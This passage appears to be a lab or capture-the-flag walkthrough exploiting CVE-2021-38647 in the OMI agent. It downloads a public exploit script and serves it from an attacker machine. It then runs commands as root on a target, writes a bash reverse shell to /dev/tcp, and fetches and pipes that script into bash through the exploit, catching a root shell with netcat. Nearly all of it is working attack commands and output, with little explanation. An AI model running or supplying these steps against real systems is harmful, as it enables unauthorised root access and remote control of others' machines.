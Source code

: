 `wget https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/refs/heads/main/CVE-2021-38647.py`

```jsx
CVE-2021-38647.py             100%[================================================>]   5.12K  --.-KB/s    in 0.002s  

2024-11-22 04:45:17 (2.45 MB/s) - ‘CVE-2021-38647.py’ saved [5246/5246]
```

**For source:**

[https://github.com/AlteredSecurity/CVE-2021-38647/](https://github.com/AlteredSecurity/CVE-2021-38647/)

`cp CVE-2021-38647.py exploit.py`

```jsx
root@4a70924bafa0:/tmp# curl http://10.2.37.37:8000/exploit.py -o exploit.py
root@4a70924bafa0:/tmp# python3 exploit.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a'

root
/var/opt/microsoft/scx/tmp
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Linux ubuntu 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

root@4a70924bafa0:/tmp# 
```

`nano reversebash.sh`

```jsx
bash -i >& /dev/tcp/10.2.37.37/10001 0>&1
```

`nc -nlvp 10001`

```jsx
listening on [any] 10001 ...
```

```jsx
root@4a70924bafa0:/tmp# python3 exploit.py -t 172.17.0.1 -c 'curl http://10.2.37.37:8000/reversebash.sh | bash'
```

```jsx
listening on [any] 10001 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.65.171] 36716
bash: cannot set terminal process group (1799): Inappropriate ioctl for device
bash: no job control in this shell

root@ubuntu:/var/opt/microsoft/scx/tmp# whoami
root
root@ubuntu:/var/opt/microsoft/scx/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/var/opt/microsoft/scx/tmp# 

```
